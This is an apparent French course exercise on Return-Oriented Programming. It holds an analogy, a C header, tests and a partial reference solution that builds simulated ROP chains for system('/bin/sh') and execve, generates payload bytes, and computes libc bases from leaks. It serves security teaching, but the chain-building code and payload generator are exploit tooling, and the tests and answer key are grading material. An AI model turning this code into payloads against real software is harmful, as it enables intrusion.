

# Exercice 2.9.5 : rop_chain_builder

**Module :**
2.9 — Exploitation Binaire et Sécurité Mémoire

**Concept :**
ROP — Return-Oriented Programming et Mécanismes de Défense

**Difficulté :**
★★★★★★★★★☆ (9/10)

**Type :**
complet

**Tiers :**
3 — Synthèse (concepts W^X, gadgets, chaînes ROP, ASLR bypass, stack pivot)

**Langage :**
C17 / x86-64 Assembly

**Prérequis :**
- Buffer overflow (stack smashing)
- Architecture x86-64 (registres, calling conventions)
- Pointeurs et manipulation mémoire
- Notions de linking dynamique (GOT/PLT)

**Domaines :**
ASM, CPU, Mem, Crypto

**Durée estimée :**
180 min

**XP Base :**
500

**Complexité :**
T3 O(n) × S2 O(n)

---

## SECTION 2.4 : CULTURE & ANALOGIE

### 2.4.1 Analogie MACGYVER - "L'Art de l'Improvisation Offensive"

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                                                                             │
│   🔧 MACGYVER vs ROP : L'ÉVASION IMPOSSIBLE                                 │
│                                                                             │
│   Imagine MacGyver enfermé dans une cellule ultra-sécurisée.                │
│   Les gardes lui ont confisqué TOUS ses outils.                             │
│   Il ne peut PAS créer de nouveaux objets (code non-exécutable = DEP/NX).   │
│                                                                             │
│   Mais... il y a des objets DÉJÀ PRÉSENTS dans la pièce :                   │
│   - Un trombone (pop rdi; ret)                                              │
│   - Un chewing-gum (pop rsi; ret)                                           │
│   - Un élastique (syscall; ret)                                             │
│   - Une pile de livres ("/bin/sh" dans libc)                                │
│                                                                             │
│   MacGyver ne peut pas CRÉER d'outils, mais il peut RÉUTILISER              │
│   ceux qui existent et les ENCHAÎNER dans le bon ordre !                    │
│                                                                             │
│   C'est EXACTEMENT ce qu'est le ROP :                                       │
│   → Réutiliser des fragments de code existants (gadgets)                    │
│   → Les enchaîner via la pile (chaîne ROP)                                  │
│   → Accomplir une action "impossible" (exécuter /bin/sh)                    │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘

   ┌──────────────────────────────────────────────────────────────────────┐
   │                    CORRESPONDANCES MACGYVER ↔ ROP                    │
   ├──────────────────────┬───────────────────────────────────────────────┤
   │ MacGyver Concept     │ ROP Equivalent                                │
   ├──────────────────────┼───────────────────────────────────────────────┤
   │ Cellule verrouillée  │ Espace mémoire avec DEP/NX activé            │
   │ Outils confisqués    │ Impossible d'injecter du shellcode           │
   │ Objets dans la pièce │ Gadgets dans libc/binaire                    │
   │ Trombone déplié      │ "pop rdi; ret" - charge argument             │
   │ Chewing-gum          │ "pop rsi; ret" - colle les arguments         │
   │ Plan d'évasion       │ Chaîne ROP ordonnée sur la pile              │
   │ Séquence d'actions   │ Gadgets exécutés via ret successifs          │
   │ Gardes patrouillant  │ CFI (Control-Flow Integrity)                 │
   │ Caméras de sécurité  │ Stack Canaries                               │
   │ Portes randomisées   │ ASLR (addresses changent à chaque run)       │
   │ Manuel d'instructions│ Libc (contient system, "/bin/sh")            │
   └──────────────────────┴───────────────────────────────────────────────┘

   🎬 SCÉNARIO COMPLET :

   MacGyver veut appeler le directeur de la prison (system) pour lui dire
   un mot de passe secret ("/bin/sh") qui ouvre toutes les portes.

   PROBLÈME : Il ne peut pas écrire de message (pas de shellcode).
   SOLUTION : Utiliser les objets existants !

   ÉTAPE 1 : Trouver un trombone (pop rdi; ret)
             → Permet de mettre quelque chose dans sa main (registre RDI)

   ÉTAPE 2 : Localiser le manuel avec le mot de passe (&"/bin/sh" dans libc)
             → L'adresse du string qu'il veut passer

   ÉTAPE 3 : Trouver le téléphone du directeur (&system dans libc)
             → La fonction à appeler

   ÉTAPE 4 : Enchaîner dans le bon ordre sur sa liste de tâches (pile)
             → pop rdi; ret  → prend le prochain élément (adresse /bin/sh)
             → &"/bin/sh"    → maintenant dans RDI
             → &system       → appelle system("/bin/sh")
             → SHELL OBTENU ! MacGyver s'échappe !

   🛡️ MAIS LES GARDES CONTRE-ATTAQUENT :

   CFI (Control-Flow Integrity) = Les gardes vérifient que MacGyver
   ne fait que des mouvements "autorisés". Si le flux de contrôle
   dévie du chemin normal, ALARME !

   ASLR = Les portes changent de place à chaque fois. MacGyver doit
   d'abord ESPIONNER (information leak) pour savoir où sont les objets.

   Stack Canary = Un fil invisible devant la porte. Si MacGyver le
   touche en écrasant le retour, l'alarme se déclenche AVANT qu'il
   puisse s'échapper.
```

### 2.4.2 Explication Académique

Le **Return-Oriented Programming (ROP)** est une technique d'exploitation qui permet de contourner la protection **DEP/NX** (Data Execution Prevention / No-eXecute) en réutilisant des fragments de code existants appelés **gadgets**.

**Contexte historique :**
- Avant DEP/NX : injection directe de shellcode sur la pile
- Après DEP/NX : la pile n'est plus exécutable → le shellcode ne fonctionne plus
- Solution ROP : ne pas injecter de nouveau code, mais chaîner du code existant

**Principe fondamental :**
1. Chaque gadget se termine par `ret` (ou `jmp reg` pour JOP)
2. L'instruction `ret` dépile l'adresse suivante et y saute
3. En contrôlant la pile, on contrôle le flux d'exécution

**Chaîne ROP typique pour `system("/bin/sh")` sur x86-64 :**
```
[adresse de "pop rdi; ret"]  ← RSP initial
[adresse de "/bin/sh"]       ← sera pop dans RDI
[adresse de system()]        ← sera appelé avec RDI = "/bin/sh"
```

**Défenses modernes :**
- **ASLR** : randomise les adresses → nécessite une fuite d'information
- **Stack Canary** : valeur secrète avant l'adresse de retour
- **CFI** : vérifie que les sauts indirects vont vers des cibles valides
- **RELRO** : rend le GOT en lecture seule

---

## 📐 SECTION 1 : PROTOTYPE & CONSIGNE

### 1.1 Obligations

**Fichiers à rendre :**
```
rop_chain_builder.c
rop_chain_builder.h
```

**Fonctions autorisées :**
- `malloc`, `free`, `realloc`
- `memcpy`, `memset`, `memmove`
- `printf`, `snprintf` (pour debug uniquement)

**Fonctions interdites :**
- `system`, `exec*`, `popen` (le but est de les APPELER via ROP, pas directement)
- `mprotect`, `mmap` avec PROT_EXEC

### 1.2 Consigne

**🔧 MISSION MACGYVER : CONSTRUIS TON PLAN D'ÉVASION**

Tu es MacGyver. La prison a activé DEP/NX - tu ne peux plus fabriquer d'outils.
Mais tu as trouvé un inventaire des objets disponibles (gadgets dans libc).

**Ta mission :**

Implémenter un système de construction de chaînes ROP qui :

1. **Gère une base de données de gadgets** simulée
2. **Construit des chaînes ROP** pour différents objectifs
3. **Simule les défenses** (ASLR, canary, RELRO)
4. **Calcule les offsets** à partir d'une fuite d'adresse

**Entrée :**
- `libc_base` : adresse de base de la libc (uint64_t)
- `objective` : objectif de la chaîne (enum: SYSTEM_BINSH, EXECVE_SYSCALL, MPROTECT_SHELLCODE)
- `gadget_db` : base de données de gadgets préchargée

**Sortie :**
- Structure `ROPChain` contenant les adresses ordonnées
- `NULL` si construction impossible

**Contraintes :**
- Gérer le cas où un gadget requis n'existe pas
- Respecter l'alignement de pile (16 bytes sur x86-64 avant CALL)
- Les adresses doivent être en little-endian
- Simuler correctement l'effet de chaque gadget

**Exemples :**

| Objectif | Chaîne générée | Explication |
|----------|----------------|-------------|
| `SYSTEM_BINSH` | `[pop_rdi, binsh_addr, system]` | Appelle system("/bin/sh") |
| `EXECVE_SYSCALL` | `[pop_rdi, binsh, pop_rsi, 0, pop_rdx, 0, pop_rax, 59, syscall]` | execve via syscall |

### 1.3 Prototype

```c
#ifndef ROP_CHAIN_BUILDER_H
#define ROP_CHAIN_BUILDER_H

#include <stdint.h>
#include <stddef.h>

/* Types d'objectifs ROP */
typedef enum {
    SYSTEM_BINSH,        /* system("/bin/sh") */
    EXECVE_SYSCALL,      /* execve via syscall direct */
    MPROTECT_SHELLCODE,  /* rendre une zone RWX puis sauter */
    STACK_PIVOT,         /* changer RSP vers zone contrôlée */
    ONE_GADGET           /* gadget magique tout-en-un */
} ROPObjective;

/* Représentation d'un gadget */
typedef struct {
    uint64_t    address;        /* Adresse du gadget */
    const char *instructions;   /* Ex: "pop rdi; ret" */
    size_t      stack_delta;    /* Combien d'octets consommés sur la pile */
} Gadget;

/* Base de données de gadgets */
typedef struct {
    Gadget     *gadgets;
    size_t      count;
    uint64_t    libc_base;
    uint64_t    binsh_offset;   /* Offset de "/bin/sh" dans libc */
    uint64_t    system_offset;  /* Offset de system() */
    uint64_t    execve_offset;  /* Offset de execve() */
} GadgetDB;

/* Élément d'une chaîne ROP */
typedef enum {
    ELEM_GADGET_ADDR,    /* Adresse de gadget */
    ELEM_VALUE,          /* Valeur à pop (argument) */
    ELEM_PADDING         /* Padding d'alignement */
} ROPElementType;

typedef struct {
    ROPElementType type;
    uint64_t       value;
    const char    *comment;  /* Pour debug/affichage */
} ROPElement;

/* Chaîne ROP complète */
typedef struct {
    ROPElement *elements;
    size_t      count;
    size_t      capacity;
    size_t      total_size;  /* Taille en bytes */
} ROPChain;

/* === FONCTIONS PRINCIPALES === */

/* Initialise la base de données avec les gadgets simulés */
GadgetDB *gadgetdb_init(uint64_t libc_base);

/* Libère la base de données */
void gadgetdb_free(GadgetDB *db);

/* Recherche un gadget par pattern */
const Gadget *gadgetdb_find(const GadgetDB *db, const char *pattern);

/* Recherche tous les gadgets matchant un pattern */
Gadget **gadgetdb_find_all(const GadgetDB *db, const char *pattern, size_t *count);

/* Crée une nouvelle chaîne ROP vide */
ROPChain *ropchain_new(void);

/* Libère une chaîne ROP */
void ropchain_free(ROPChain *chain);

/* Ajoute un élément à la chaîne */
int ropchain_push_addr(ROPChain *chain, uint64_t addr, const char *comment);
int ropchain_push_value(ROPChain *chain, uint64_t value, const char *comment);
int ropchain_push_padding(ROPChain *chain, size_t count);

/* === CONSTRUCTEURS DE CHAÎNES === */

/* Construit une chaîne pour l'objectif donné */
ROPChain *rop_build_chain(const GadgetDB *db, ROPObjective objective);

/* Construit system("/bin/sh") */
ROPChain *rop_build_system_binsh(const GadgetDB *db);

/* Construit execve("/bin/sh", NULL, NULL) via syscall */
ROPChain *rop_build_execve_syscall(const GadgetDB *db);

/* Construit un stack pivot vers new_stack */
ROPChain *rop_build_stack_pivot(const GadgetDB *db, uint64_t new_stack);

/* === GÉNÉRATION DE PAYLOAD === */

/* Génère le payload binaire (bytes à écrire sur la pile) */
uint8_t *ropchain_generate_payload(const ROPChain *chain, size_t *out_size);

/* Affiche la chaîne de façon lisible */
void ropchain_dump(const ROPChain *chain);

/* === SIMULATION DÉFENSES === */

typedef struct {
    int      aslr_enabled;
    int      canary_enabled;
    int      nx_enabled;
    int      pie_enabled;
    int      relro_full;
    uint64_t canary_value;
} SecurityConfig;

/* Vérifie si l'exploitation est possible avec ces défenses */
int security_check_exploitable(const SecurityConfig *config,
                               int has_info_leak,
                               int has_canary_leak);

/* Calcule l'adresse réelle depuis une fuite */
uint64_t calculate_base_from_leak(uint64_t leaked_addr, uint64_t known_offset);

#endif /* ROP_CHAIN_BUILDER_H */
```

---

## 💡 SECTION 2 : LE SAVIEZ-VOUS ?

### 2.1 Histoire du ROP

Le ROP a été formalisé par **Hovav Shacham** en 2007 dans son papier révolutionnaire "The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)".

Avant le ROP, la technique **ret2libc** permettait déjà de contourner NX en appelant des fonctions de la libc, mais elle était limitée à un seul appel. Le ROP a généralisé cette approche en montrant qu'on pouvait effectuer des **calculs arbitraires** (Turing-complet) uniquement avec des gadgets.

### 2.2 Turing-compléitude

Shacham a prouvé que ROP est **Turing-complet** : on peut simuler n'importe quel programme en utilisant uniquement des gadgets. Cela inclut :
- Opérations arithmétiques (via `add`, `sub`, `xor` gadgets)
- Branchements conditionnels (via `cmp` + `cmov` gadgets)
- Boucles (via stack manipulation)

### 2.3 Évolutions modernes

- **JOP** (Jump-Oriented Programming) : utilise `jmp reg` au lieu de `ret`
- **COP** (Call-Oriented Programming) : utilise `call reg`
- **SROP** (Sigreturn-Oriented Programming) : exploite `sigreturn()` pour contrôler TOUS les registres d'un coup
- **BROP** (Blind ROP) : trouve les gadgets à distance sans accès au binaire

### SECTION 2.5 : DANS LA VRAIE VIE

**Métiers concernés :**

| Métier | Utilisation du concept |
|--------|------------------------|
| **Pentester / Red Team** | Développe des exploits ROP pour les tests d'intrusion |
| **Chercheur en sécurité** | Découvre et analyse des vulnérabilités 0-day |
| **Développeur de CTF** | Crée des challenges de pwn pour compétitions |
| **Ingénieur sécurité OS** | Implémente CFI, ASLR, canaries dans le kernel |
| **Analyste malware** | Reverse des exploits utilisant ROP |
| **Développeur antivirus** | Détecte les comportements ROP en runtime |

**Exemples concrets d'exploits ROP célèbres :**
- CVE-2016-0728 (Linux kernel keyring)
- CVE-2017-0144 (EternalBlue - WannaCry)
- Nombreux exploits iOS jailbreak

---

## 🖥️ SECTION 3 : EXEMPLE D'UTILISATION

### 3.0 Session bash

```bash
$ ls
rop_chain_builder.c  rop_chain_builder.h  main.c

$ gcc -Wall -Wextra -Werror -std=c17 -o test rop_chain_builder.c main.c

$ ./test
=== ROP Chain Builder Demo ===

[*] Simulating libc base: 0x7ffff7a00000

[*] Building system("/bin/sh") chain...
=== ROP Chain (3 elements, 24 bytes) ===
[RSP+0x0000] 0x00007ffff7a21102  ; pop rdi; ret
[RSP+0x0008] 0x00007ffff7b8cd57  ; "/bin/sh"
[RSP+0x0010] 0x00007ffff7a45390  ; system

[*] Building execve syscall chain...
=== ROP Chain (9 elements, 72 bytes) ===
[RSP+0x0000] 0x00007ffff7a21102  ; pop rdi; ret
[RSP+0x0008] 0x00007ffff7b8cd57  ; "/bin/sh"
[RSP+0x0010] 0x00007ffff7a22318  ; pop rsi; ret
[RSP+0x0018] 0x0000000000000000  ; NULL (argv)
[RSP+0x0020] 0x00007ffff7a01b96  ; pop rdx; ret
[RSP+0x0028] 0x0000000000000000  ; NULL (envp)
[RSP+0x0030] 0x00007ffff7a33544  ; pop rax; ret
[RSP+0x0038] 0x000000000000003b  ; 59 (execve syscall)
[RSP+0x0040] 0x00007ffff7aba555  ; syscall; ret

[*] Security check with ASLR + Canary:
    - Has info leak: YES
    - Has canary leak: YES
    - Exploitable: YES

All tests passed!
```

### 3.1 💀 BONUS EXPERT (OPTIONNEL)

**Difficulté Bonus :**
🧠 (12/10)

**Récompense :**
XP ×6

**Time Complexity attendue :**
O(n log n) pour la recherche de gadgets optimale

**Space Complexity attendue :**
O(n)

**Domaines Bonus :**
`Crypto, MD`

#### 3.1.1 Consigne Bonus

**🔧 MACGYVER NIVEAU EXPERT : SROP ET GADGET AUTOMATIQUE**

MacGyver a trouvé un outil ultime : le **Sigreturn Frame**. En falsifiant un signal frame, il peut contrôler TOUS les registres d'un coup, pas besoin de chercher des gadgets individuels !

**Ta mission :**

1. Implémenter **SROP** (Sigreturn-Oriented Programming)
2. Créer un **générateur automatique de chaînes** qui trouve le chemin optimal
3. Gérer les **contraintes de caractères** (pas de NULL bytes si format string)

**Contraintes :**
```
┌─────────────────────────────────────────┐
│  Taille sigframe ≤ 248 bytes            │
│  Aucun NULL byte dans le payload        │
│  Temps de recherche gadget : O(log n)   │
│  Doit gérer l'absence de gadgets        │
└─────────────────────────────────────────┘
```

#### 3.1.2 Prototype Bonus

```c
/* Structure du Signal Frame x86-64 (simplifié) */
typedef struct __attribute__((packed)) {
    uint64_t uc_flags;
    uint64_t uc_link;
    /* ... stack_t ... */
    uint64_t r8, r9, r10, r11, r12, r13, r14, r15;
    uint64_t rdi, rsi, rbp, rbx, rdx, rax, rcx, rsp, rip;
    uint64_t eflags;
    uint16_t cs, gs, fs, __pad0;
    uint64_t err, trapno, oldmask, cr2;
} SigFrame;

/* Crée un sigframe pour execve */
SigFrame *srop_create_execve_frame(uint64_t binsh_addr, uint64_t syscall_addr);

/* Génère automatiquement la meilleure chaîne */
ROPChain *rop_auto_build(const GadgetDB *db, ROPObjective objective,
                          uint8_t *forbidden_bytes, size_t forbidden_count);

/* Vérifie si le payload contient des bytes interdits */
int ropchain_check_bad_chars(const ROPChain *chain,
                             const uint8_t *bad_chars, size_t bad_count);
```

#### 3.1.3 Ce qui change par rapport à l'exercice de base

| Aspect | Base | Bonus |
|--------|------|-------|
| Technique | ROP classique | ROP + SROP |
| Recherche gadgets | Linéaire O(n) | Indexée O(log n) |
| Contraintes | Aucune | Bad chars filter |
| Automatisation | Manuelle | Auto-optimisée |
| Complexité | 3-9 gadgets | Sigframe 248 bytes |

---

## ✅❌ SECTION 4 : ZONE CORRECTION

### 4.1 Moulinette

| Test | Input | Expected | Points | Type |
|------|-------|----------|--------|------|
| `test_gadgetdb_init` | `libc_base=0x7ffff7a00000` | DB avec gadgets corrects | 5 | Fonctionnel |
| `test_gadget_find` | `"pop rdi; ret"` | Gadget trouvé | 5 | Fonctionnel |
| `test_gadget_not_found` | `"invalid gadget"` | `NULL` | 5 | Edge case |
| `test_chain_system_binsh` | `SYSTEM_BINSH` | 3 éléments, 24 bytes | 15 | Fonctionnel |
| `test_chain_execve` | `EXECVE_SYSCALL` | 9 éléments, 72 bytes | 15 | Fonctionnel |
| `test_chain_pivot` | `new_stack=0x41414141` | 2 éléments | 10 | Fonctionnel |
| `test_payload_generation` | Chaîne valide | Little-endian correct | 10 | Fonctionnel |
| `test_null_db` | `db=NULL` | `NULL` chain | 5 | Safety |
| `test_security_no_leak` | ASLR sans leak | Non exploitable | 10 | Défenses |
| `test_security_with_leak` | ASLR avec leak | Exploitable | 10 | Défenses |
| `test_offset_calculation` | Leak + offset connu | Base correcte | 10 | Calcul |

**Score total : 100 points**

### 4.2 main.c de test

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include "rop_chain_builder.h"

#define TEST(name) printf("[TEST] %s... ", #name)
#define PASS() printf("OK\n")
#define FAIL(msg) do { printf("FAIL: %s\n", msg); return 1; } while(0)

int test_gadgetdb_init(void)
{
    TEST(gadgetdb_init);

    GadgetDB *db = gadgetdb_init(0x7ffff7a00000);
    if (db == NULL)
        FAIL("gadgetdb_init returned NULL");
    if (db->libc_base != 0x7ffff7a00000)
        FAIL("libc_base incorrect");
    if (db->count == 0)
        FAIL("no gadgets loaded");

    gadgetdb_free(db);
    PASS();
    return 0;
}

int test_gadget_find(void)
{
    TEST(gadget_find);

    GadgetDB *db = gadgetdb_init(0x7ffff7a00000);
    const Gadget *g = gadgetdb_find(db, "pop rdi; ret");

    if (g == NULL)
        FAIL("pop rdi; ret not found");
    if (g->address != 0x7ffff7a00000 + 0x21102)
        FAIL("incorrect gadget address");

    gadgetdb_free(db);
    PASS();
    return 0;
}

int test_chain_system_binsh(void)
{
    TEST(chain_system_binsh);

    GadgetDB *db = gadgetdb_init(0x7ffff7a00000);
    ROPChain *chain = rop_build_system_binsh(db);

    if (chain == NULL)
        FAIL("chain is NULL");
    if (chain->count != 3)
        FAIL("expected 3 elements");
    if (chain->total_size != 24)
        FAIL("expected 24 bytes");

    /* Vérifier l'ordre: pop rdi, binsh, system */
    if (chain->elements[0].type != ELEM_GADGET_ADDR)
        FAIL("first element should be gadget addr");
    if (chain->elements[1].type != ELEM_VALUE)
        FAIL("second element should be value");
    if (chain->elements[2].type != ELEM_GADGET_ADDR)
        FAIL("third element should be gadget addr");

    ropchain_free(chain);
    gadgetdb_free(db);
    PASS();
    return 0;
}

int test_chain_execve(void)
{
    TEST(chain_execve);

    GadgetDB *db = gadgetdb_init(0x7ffff7a00000);
    ROPChain *chain = rop_build_execve_syscall(db);

    if (chain == NULL)
        FAIL("chain is NULL");
    if (chain->count != 9)
        FAIL("expected 9 elements for execve syscall");
    if (chain->total_size != 72)
        FAIL("expected 72 bytes");

    ropchain_free(chain);
    gadgetdb_free(db);
    PASS();
    return 0;
}

int test_payload_generation(void)
{
    TEST(payload_generation);

    GadgetDB *db = gadgetdb_init(0x7ffff7a00000);
    ROPChain *chain = rop_build_system_binsh(db);

    size_t size;
    uint8_t *payload = ropchain_generate_payload(chain, &size);

    if (payload == NULL)
        FAIL("payload is NULL");
    if (size != 24)
        FAIL("payload size incorrect");

    /* Vérifier little-endian pour première adresse */
    uint64_t first_addr = *(uint64_t *)payload;
    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    if (first_addr != pop_rdi->address)
        FAIL("first address incorrect (endianness?)");

    free(payload);
    ropchain_free(chain);
    gadgetdb_free(db);
    PASS();
    return 0;
}

int test_security_check(void)
{
    TEST(security_check);

    SecurityConfig config = {
        .aslr_enabled = 1,
        .canary_enabled = 1,
        .nx_enabled = 1,
        .pie_enabled = 1,
        .relro_full = 0,
        .canary_value = 0xdeadbeefcafebabe
    };

    /* Sans leak, non exploitable */
    if (security_check_exploitable(&config, 0, 0) != 0)
        FAIL("should not be exploitable without leaks");

    /* Avec leak d'info mais pas de canary, toujours non exploitable */
    if (security_check_exploitable(&config, 1, 0) != 0)
        FAIL("should not be exploitable without canary leak");

    /* Avec les deux leaks, exploitable */
    if (security_check_exploitable(&config, 1, 1) != 1)
        FAIL("should be exploitable with both leaks");

    /* Sans canary, leak info suffit */
    config.canary_enabled = 0;
    if (security_check_exploitable(&config, 1, 0) != 1)
        FAIL("should be exploitable with info leak only (no canary)");

    PASS();
    return 0;
}

int test_offset_calculation(void)
{
    TEST(offset_calculation);

    /* Simuler une fuite de puts@libc */
    uint64_t leaked_puts = 0x7ffff7a7e6a0;
    uint64_t puts_offset = 0x7e6a0;  /* Offset connu de puts dans libc */

    uint64_t calculated_base = calculate_base_from_leak(leaked_puts, puts_offset);

    if (calculated_base != 0x7ffff7a00000)
        FAIL("base calculation incorrect");

    PASS();
    return 0;
}

int test_null_safety(void)
{
    TEST(null_safety);

    /* Toutes les fonctions doivent gérer NULL */
    if (gadgetdb_find(NULL, "test") != NULL)
        FAIL("gadgetdb_find should return NULL for NULL db");
    if (rop_build_system_binsh(NULL) != NULL)
        FAIL("rop_build should return NULL for NULL db");

    ROPChain *chain = ropchain_new();
    if (ropchain_push_addr(chain, 0, NULL) != 0)
        FAIL("push_addr should succeed with NULL comment");
    ropchain_free(chain);

    PASS();
    return 0;
}

int main(void)
{
    int failures = 0;

    printf("=== ROP Chain Builder Tests ===\n\n");

    failures += test_gadgetdb_init();
    failures += test_gadget_find();
    failures += test_chain_system_binsh();
    failures += test_chain_execve();
    failures += test_payload_generation();
    failures += test_security_check();
    failures += test_offset_calculation();
    failures += test_null_safety();

    printf("\n=== Results: %d failures ===\n", failures);

    return failures;
}
```

### 4.3 Solution de référence

```c
/* rop_chain_builder.c - Solution de référence */
#include "rop_chain_builder.h"
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

/* Offsets typiques dans libc (version simulée) */
#define OFFSET_POP_RDI      0x21102
#define OFFSET_POP_RSI      0x22318
#define OFFSET_POP_RDX      0x01b96
#define OFFSET_POP_RAX      0x33544
#define OFFSET_SYSCALL_RET  0xba555
#define OFFSET_POP_RSP      0x03960
#define OFFSET_LEAVE_RET    0x42440
#define OFFSET_RET          0x25679
#define OFFSET_BINSH        0x18cd57
#define OFFSET_SYSTEM       0x45390
#define OFFSET_EXECVE       0xe4e30

/* === GADGET DATABASE === */

GadgetDB *gadgetdb_init(uint64_t libc_base)
{
    GadgetDB *db = malloc(sizeof(GadgetDB));
    if (db == NULL)
        return NULL;

    db->libc_base = libc_base;
    db->binsh_offset = OFFSET_BINSH;
    db->system_offset = OFFSET_SYSTEM;
    db->execve_offset = OFFSET_EXECVE;

    /* Allouer et remplir les gadgets */
    db->count = 10;
    db->gadgets = malloc(sizeof(Gadget) * db->count);
    if (db->gadgets == NULL)
    {
        free(db);
        return NULL;
    }

    size_t i = 0;

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_POP_RDI,
        .instructions = "pop rdi; ret",
        .stack_delta = 8
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_POP_RSI,
        .instructions = "pop rsi; ret",
        .stack_delta = 8
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_POP_RDX,
        .instructions = "pop rdx; ret",
        .stack_delta = 8
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_POP_RAX,
        .instructions = "pop rax; ret",
        .stack_delta = 8
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_SYSCALL_RET,
        .instructions = "syscall; ret",
        .stack_delta = 0
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_POP_RSP,
        .instructions = "pop rsp; ret",
        .stack_delta = 8
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_LEAVE_RET,
        .instructions = "leave; ret",
        .stack_delta = 0
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_RET,
        .instructions = "ret",
        .stack_delta = 0
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_SYSTEM,
        .instructions = "system",
        .stack_delta = 0
    };

    db->gadgets[i++] = (Gadget){
        .address = libc_base + OFFSET_BINSH,
        .instructions = "/bin/sh",
        .stack_delta = 0
    };

    return db;
}

void gadgetdb_free(GadgetDB *db)
{
    if (db == NULL)
        return;
    free(db->gadgets);
    free(db);
}

const Gadget *gadgetdb_find(const GadgetDB *db, const char *pattern)
{
    if (db == NULL || pattern == NULL)
        return NULL;

    for (size_t i = 0; i < db->count; i++)
    {
        if (strcmp(db->gadgets[i].instructions, pattern) == 0)
            return &db->gadgets[i];
    }
    return NULL;
}

/* === ROP CHAIN === */

ROPChain *ropchain_new(void)
{
    ROPChain *chain = malloc(sizeof(ROPChain));
    if (chain == NULL)
        return NULL;

    chain->capacity = 16;
    chain->elements = malloc(sizeof(ROPElement) * chain->capacity);
    if (chain->elements == NULL)
    {
        free(chain);
        return NULL;
    }

    chain->count = 0;
    chain->total_size = 0;
    return chain;
}

void ropchain_free(ROPChain *chain)
{
    if (chain == NULL)
        return;
    free(chain->elements);
    free(chain);
}

static int ropchain_grow(ROPChain *chain)
{
    if (chain->count < chain->capacity)
        return 0;

    size_t new_cap = chain->capacity * 2;
    ROPElement *new_elems = realloc(chain->elements, sizeof(ROPElement) * new_cap);
    if (new_elems == NULL)
        return -1;

    chain->elements = new_elems;
    chain->capacity = new_cap;
    return 0;
}

int ropchain_push_addr(ROPChain *chain, uint64_t addr, const char *comment)
{
    if (chain == NULL)
        return -1;
    if (ropchain_grow(chain) != 0)
        return -1;

    chain->elements[chain->count] = (ROPElement){
        .type = ELEM_GADGET_ADDR,
        .value = addr,
        .comment = comment
    };
    chain->count++;
    chain->total_size += 8;
    return 0;
}

int ropchain_push_value(ROPChain *chain, uint64_t value, const char *comment)
{
    if (chain == NULL)
        return -1;
    if (ropchain_grow(chain) != 0)
        return -1;

    chain->elements[chain->count] = (ROPElement){
        .type = ELEM_VALUE,
        .value = value,
        .comment = comment
    };
    chain->count++;
    chain->total_size += 8;
    return 0;
}

int ropchain_push_padding(ROPChain *chain, size_t count)
{
    if (chain == NULL)
        return -1;

    for (size_t i = 0; i < count; i++)
    {
        if (ropchain_grow(chain) != 0)
            return -1;

        chain->elements[chain->count] = (ROPElement){
            .type = ELEM_PADDING,
            .value = 0x4141414141414141,
            .comment = "padding"
        };
        chain->count++;
        chain->total_size += 8;
    }
    return 0;
}

/* === CHAIN BUILDERS === */

ROPChain *rop_build_system_binsh(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");
    const Gadget *system_func = gadgetdb_find(db, "system");

    if (pop_rdi == NULL || binsh == NULL || system_func == NULL)
        return NULL;

    ROPChain *chain = ropchain_new();
    if (chain == NULL)
        return NULL;

    /* pop rdi; ret - va charger la prochaine valeur dans rdi */
    ropchain_push_addr(chain, pop_rdi->address, "pop rdi; ret");

    /* Adresse de "/bin/sh" - sera pop dans rdi */
    ropchain_push_value(chain, binsh->address, "\"/bin/sh\"");

    /* Adresse de system - sera appelé avec rdi = "/bin/sh" */
    ropchain_push_addr(chain, system_func->address, "system");

    return chain;
}

ROPChain *rop_build_execve_syscall(const GadgetDB *db)
{
    if (db == NULL)
        return NULL;

    const Gadget *pop_rdi = gadgetdb_find(db, "pop rdi; ret");
    const Gadget *pop_rsi = gadgetdb_find(db, "pop rsi; ret");
    const Gadget *pop_rdx = gadgetdb_find(db, "pop rdx; ret");
    const Gadget *pop_rax = gadgetdb_find(db, "pop rax; ret");
    const Gadget *syscall_ret = gadgetdb_find(db, "syscall; ret");
    const Gadget *binsh = gadgetdb_find(db, "/bin/sh");

    if (pop_rdi == NULL || pop_rsi == NULL || pop_rdx == NULL ||
        pop_rax == NULL || syscall_ret == NULL || binsh == NULL)
        return NULL;

    ROPChain *chain = ropchain_new();
    if (chain == NULL)
        return NULL;

    /* rdi = "/bin/sh" (premier argument) */
    ropchain_push_addr(chain, pop_rdi->address, "pop rdi; ret");
    ropchain_push_value(chain, binsh->address, "\"/bin/sh\"");

    /* rsi = NULL (argv) */
    ropchain_push_addr(chain, pop_rsi->address, "pop rsi; ret");
    ropchain_push_value(chain, 0, "NULL (argv)");

    /* rdx = NULL (envp) */
    ropchain_push_addr(chain, pop_rdx->address, "pop rdx; ret");
